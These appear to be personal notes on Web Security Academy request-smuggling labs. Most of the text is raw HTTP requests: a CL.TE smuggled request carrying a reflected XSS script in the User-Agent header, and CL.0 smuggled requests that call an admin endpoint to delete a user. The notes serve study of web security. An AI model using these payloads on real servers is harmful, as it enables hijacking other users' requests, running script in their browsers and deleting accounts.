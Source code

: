 
With a real session cookie, CSRF token and a big Content-Length we con capture other users' request

# Lab: Exploiting HTTP request smuggling to deliver reflected XSS

```http
POST / HTTP/1.1
Host: 0ac50091038bea7780785327003e006b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 152
Transfer-Encoding: chunked

0


GET /post?postId=2 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```

# Lab: Response queue poisoning via H2.TE request smuggling

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

# Lab: CL.0 request smuggling

```http
POST / HTTP/2
Host: 0a4900f304755eab803c99fc00780050.web-security-academy.net
Cookie: session=08dEtE9eNrHA4ELzJN8s3VgkYuEztljH
Content-Type: application/x-www-form-urlencoded
Content-Length: CORRECT

GET /admin/delete?username=carlos HTTP/1.1
Foo: x
```

If the request after this request return normally then the file path is not vulnerability.

Try to exploit all the path that we found, until `/resources/images/blog.svg`

```http
POST /resources/images/blog.svg HTTP/2
Host: 0a4900f304755eab803c99fc00780050.web-security-academy.net
Cookie: session=08dEtE9eNrHA4ELzJN8s3VgkYuEztljH
Content-Type: application/x-www-form-urlencoded
Content-Length: CORRECT

GET /admin/delete?username=carlos HTTP/1.1
Foo: x
```

